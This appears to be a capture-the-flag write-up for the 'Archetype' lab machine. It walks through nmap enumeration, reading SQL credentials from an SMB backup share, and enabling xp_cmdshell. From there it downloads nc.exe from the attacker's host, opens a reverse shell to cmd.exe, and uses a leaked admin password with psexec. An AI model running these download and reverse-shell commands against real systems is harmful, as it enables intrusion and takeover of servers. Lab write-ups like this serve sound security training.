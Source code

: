 # Archetype

## Ifconfig

```
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
```

## nmap

> sudo nmap -sC -sV -A 10.10.10.27

```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
Host script results:
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-09-19T08:27:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-19T01:27:52-07:00
|_clock-skew: mean: 1h49m02s, deviation: 3h07m52s, median: 25m01s
```

## Smbclient

- List sharename

> smbclient -L 10.10.10.27

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

- Attempt to login

> smbclient //10.10.10.27/ADMIN$

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

> smbclient //10.10.10.27/backups

login success

- Get prod.dtsConfig info

> allinfo prod.dtsConfig

```
altname: PROD~1.DTS
create_time:    一  1月 20 20時20分57秒 2020 CST
access_time:    一  1月 20 20時23分02秒 2020 CST
write_time:     一  1月 20 20時23分02秒 2020 CST
change_time:    一  1月 20 20時23分18秒 2020 CST
attributes: RA (21)
stream: [::$DATA], 609 bytes
```

- Find prod.dtsConfig in backups

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
## Impacket

- Format

```
[[domain/]username[:password]@]<targetName or address>
```

> impacket-mssqlclient sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

- Use sp_configure make sure xp_cmdshell is opened

- Get command from remote

*local upload nc.exe* 

http server default port 8000

> python3 -m http.server 

*remote get nc.exe*

> xp_cmdshell powershell wget http://10.10.14.69:8000/nc.exe -outfile %TEMP%\nc.exe

*local listen port*

> nc -lvnp *port*

*remote give cmd.exe privilege*

> xp_cmdshell powershell %TEMP%\nc.exe -nv 10.10.14.69 *port* -e cmd.exe

```
user.txt
3e7b102e78218e935bf3f4951fec21a3
```

## Get powershell history file

> cd /

- Search any end at history.txt's file

> dir/s *history.txt

```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

- type the content

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

> impacket-psexec administrator@10.10.10.27

or

> impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.10.10.27

```
root.txt
b91ccec3305e98240082d4474b848528
```
